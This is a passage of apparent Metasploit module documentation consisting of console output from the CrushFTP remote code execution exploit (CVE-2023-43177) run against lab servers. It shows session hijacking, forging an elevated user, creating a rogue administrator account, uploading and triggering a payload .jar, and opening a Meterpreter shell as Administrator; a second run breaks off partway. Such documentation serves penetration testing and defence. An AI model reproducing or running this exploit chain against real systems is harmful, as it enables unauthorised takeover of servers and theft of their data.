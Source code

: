 ```
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130429011_YzjufB5IlVeRSuqRdcJdMjXfDWBQwx
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711130429011_YzjufB5IlVeRSuqRdcJdMjXfDWBQwx`
[*] Found the egg at FILE://C:/CrushFTP10/home/readonly/writable1/4daf4b7923 in the session file
[+] Found path `C:/CrushFTP10/home/readonly/writable1/` and it is Windows
[+] Found the file system path: C:/CrushFTP10/home/readonly/writable1/
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130431330_KQjve6ieSt8nNrl4uJ5L7vmVmsEXsD
[*] The forged user will be `4a5b85eeb9`
[*] Moving user.XML from C:/CrushFTP10/home/readonly/writable1/ to `4a5b85eeb9` home folder and elevate privileges
[*] Logging out session cookie `1711130431330_KQjve6ieSt8nNrl4uJ5L7vmVmsEXsD`
[*] Logging into the elevated account
[*] [do_login] Logging in with username `4a5b85eeb9` and password `9adccf3732`
[+] Logged in! Now let's create a temporary admin account
[*] Logging out session cookie `1711130433073_bRLLcJRdeSHJTIEcRAOpMKzMYL0zLa`
[+] Administrator account created: username=ec71181f81, password=63524a9c6c
[*] [do_login] Logging in with username `ec71181f81` and password `63524a9c6c`
[*] Uploading payload .jar file `ea2c.jar` to C:/Users/Public/ea2c.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.54:4444
[*] Sending stage (57971 bytes) to 192.168.101.54
[+] Deleted C:/CrushFTP10/home/readonly/writable1/4daf4b7923
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_9f9371966b-js
[*] Meterpreter session 12 opened (10.4.227.33:61332 -> 192.168.101.54:4444) at 2024-03-22 19:00:49 +0100
[!] This exploit may require manual cleanup of 'C:/Users/Public/ea2c.jar' on the target

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer        : SRV-STD
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/windows
```

### Target 0 (Java) against CrushFTP version 10.5.0_3 on Linux

#### With an active administrator session
```
msf exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.96 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130989170_opHdY12lePB0nORZlJxUqdgU9zEBuZ
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711130989170_opHdY12lePB0nORZlJxUqdgU9zEBuZ`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711130990882_In2JvArUAjORTeJGGXf67Ql3gpUMC8
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_040ed0cbc9-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711130990882_In2JvArUAjORTeJGGXf67Ql3gpUMC8`
[*] Looking for the valid sessions
```